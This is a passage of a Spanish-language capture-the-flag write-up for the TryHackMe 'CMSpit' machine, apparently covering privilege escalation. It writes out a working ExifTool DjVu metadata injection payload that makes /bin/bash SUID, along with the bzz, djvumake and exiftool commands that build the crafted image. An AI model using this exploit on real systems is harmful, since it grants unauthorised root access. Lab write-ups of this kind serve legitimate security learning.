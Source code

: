 Payload, contendra lo siguiente:
```bash 
(metadata "\c${system('chmod +s /bin/bash')};")
```
Con esto vamos a la /bin/bash para que sea SUID y con bash -p podamos ser usuario root.


Ejecutamos bzz:

```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ bzz payload payload.bzz
```

Creamos un exxploit.djvu:

```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

![](stux04.png)

**configfile**

![](stux05.png)

Ahora solo le pasamos el payload a nuestra imagen y cuando se ejecute con exiftool ejecutaremos el comando que le indicamos en nuestro payload
```bash
(kali㉿Hacknet)-[~/…/tryhackme/maquinas/CMSpit/exploit]
Sie7e>$ exiftool -config configfile '-HasselbladExif<=exploit.djvu' image.jpg
```
